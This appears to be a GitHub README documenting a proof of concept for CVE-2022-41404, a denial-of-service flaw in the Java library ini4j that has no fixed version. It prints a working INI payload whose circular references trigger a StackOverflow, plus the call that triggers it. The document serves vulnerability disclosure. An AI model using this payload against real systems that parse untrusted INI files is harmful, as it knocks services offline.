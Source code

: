 # Unpatched ini4j DoS vulnerability [CVE-2022-41404](https://nvd.nist.gov/vuln/detail/CVE-2022-41404)

Test Text 1234

A CVE was submitted to NVD on 10/11/2022, claiming that [ini4j](https://mvnrepository.com/artifact/org.ini4j/ini4j) 
*prior* to [0.5.4](https://mvnrepository.com/artifact/org.ini4j/ini4j/0.5.4) is vulnerable to a DoS attack. The ini file 
payload is

```
[sectionOne]
weight = ${sectionTwo/weight}
height = ${doc/height}

[sectionTwo]
weight = ${sectionOne/weight}
height = ${sectionOne/height}

[doc]
weight = 49.5
height = 87.7
```
If you take a look at `sectionOne`, you can note that the `weight` key references the `sectionTwo` `weight` key, 
and then references the `sectionOne` `weight` key. This infinite lookup loop results in Denial of Service. This type of
DoS can be described as a [Billion Laugh attack](https://en.wikipedia.org/wiki/Billion_laughs_attack)

It turns out that [0.5.4](https://mvnrepository.com/artifact/org.ini4j/ini4j/0.5.4) hasn't been updated since 2015, and 
there is no fixed version.

## How to run the PoC

1. Install the ini4j dependency using maven
2. Run the main class in [Main.java](src%2Fmain%2Fjava%2Forg%2Fini4jTest%2FMain.java)
3. When trying to `fetch` the `weight` key in `sectionOne`, a StackOverFlow Exception is raised, resulting in DoS
   - `ini.get("sectionOne").fetch("weight");`
